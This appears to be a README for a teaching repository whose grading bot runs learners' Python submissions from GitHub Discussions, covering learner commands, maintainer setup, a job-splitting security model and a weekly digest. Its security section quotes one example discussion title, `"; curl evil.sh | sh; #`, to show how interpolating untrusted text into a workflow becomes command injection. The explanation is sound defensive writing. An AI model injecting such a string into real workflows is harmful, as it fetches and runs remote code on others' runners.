

# The simulator, run from a discussion thread

Most people who ever open this repository will not clone it. They will read a thread.

So the whole loop works in Discussions: post a unit, a bot grades it, you get back the **named
checks** that failed rather than a red cross. Nothing to install, nothing to configure, and the
grader is the same `python -m labsim check` you would run locally — deliberately, because a
grader that only exists in CI is a grader nobody can debug.

The by-product is the interesting part. A thread where somebody posted a wrong answer, a named
check caught it, a peer explained why and the author came back with the fix is the most useful
object in this repository. A green tick on a fork nobody can see is not.

---

## For a learner

**Post.** New discussion in the **LAB Simulator** category. The form asks for your approach
*before* your code — that order is the point, and it is the same order `decide` mode enforces.

**Get graded.** An Action runs the checks on a clean checkout and replies within a couple of
minutes. Edit your post and it re-grades.

**Then, as comments on your own thread:**

| | |
|---|---|
| `/check` | force a re-grade |
| `/hint` · `/hint 3` | the next hint from the brief, one at a time |
| `/solution` | the worked answer — opens once the thread has cleared |
| `/status` | the pathway, and where this unit sits in it |
| `/help` | this table |

Commands work anywhere in a comment (`any ideas? /hint` is fine) and are ignored inside code
fences, so quoting a file that contains `/check` does not set the bot off.

`/solution` stays closed until the thread clears. That is not gatekeeping: reading a worked
answer before you have a failing attempt in front of you teaches the answer and not the
reasoning, and the difference shows up in an interview two months later. The file has always
been in the repository, and opening it deliberately is a different act from being handed it.

## For a maintainer: the one manual step

**No GitHub API creates a discussion category.** Not REST, not GraphQL. It has to be done once,
by hand:

> Settings → Discussions → Categories → **New category**
>
> - **Name** `LAB Simulator` — no dots, so the slug is `lab-simulator`, which is what
>   `.github/DISCUSSION_TEMPLATE/lab-simulator.yml` is keyed to
> - **Format** Q&A, so a canonical solve can be marked
> - **Description** paste from `CATEGORIES` in `scripts/seed_content.py`

Then **Actions → Provision GitHub surface → `discussions`** seeds the index thread and two
worked solves.

Until that category exists, the grading workflow falls back to **Exercises & Submissions** —
the routing normalises the category name, so `LAB Simulator`, `L.A.B. Simulator` and
`Exercises & Submissions` all work. Only the *form* depends on the exact slug.

---

## How it works, and why it is shaped like that



Three jobs, and the split is the security model rather than tidiness.

This executes code written by strangers, triggered by an event in the **base** repository —
the same hazard as `pull_request_target`. The mitigation is that the job which runs the stranger's
Python has `permissions: {}`, no secrets, `persist-credentials: false`, and a hard timeout. It
holds no token to steal and can write nothing. The job that *can* write runs no untrusted code
and only posts an artifact.

Untrusted content never reaches a shell. The event payload is already on the runner at
`$GITHUB_EVENT_PATH` and is passed **by path**; `${{ github.event.discussion.body }}` appears
nowhere in the workflow and should never be added, because a discussion titled
`"; curl evil.sh | sh; #` would otherwise be a command.

**What this does not protect against**, stated rather than buried:

- a submission can burn runner minutes up to the 12-minute cap
- the grade job writes the reply, so a submission could in principle make the bot post
  misleading text under the repository's identity

`scripts/discussion_bot.py:sanitise` handles the second one as far as text can be handled — it
neutralises `@mentions` and strips HTML comments that are not the simulator's own tags, which is
where a payload would hide from a reader. It does not make the text trustworthy, and saying so
is more useful than implying otherwise. On a public teaching repository that trade is worth
making, and it is reversible: disable the workflow and the CLI path is untouched.

## The digest, and why it is not a leaderboard

Every bot reply carries a tag a reader never sees:

```html
<!-- labsim:R1:fail:markers map to the input chunk_ids;every marker resolves… -->
```

`scripts/labsim_digest.py` reads them back weekly and prints **which check caught people most
often**.

That is feedback on the *units*, not on the people working them. A check almost everyone trips
is either the lesson landing or a brief that failed to set it up — and those are
distinguishable: if people clear it on the second attempt it is the lesson, and if they only
clear it after spending a hint the brief is doing too little work.

A leaderboard would measure something else. On a public repository, ranking learners mostly
ranks who had a free weekend, and it is not a number anybody should act on.

## Adding a unit

The form's dropdown and `.vscode/tasks.json` both hard-code the unit list.
`scripts/lint/check_devcontainer.py` fails CI when the task list drifts from the registry; the
discussion form is checked by hand, so add the row when you add the unit. The bot itself needs
no change — it resolves units through `labsim.registry`, so a new directory is a new option.
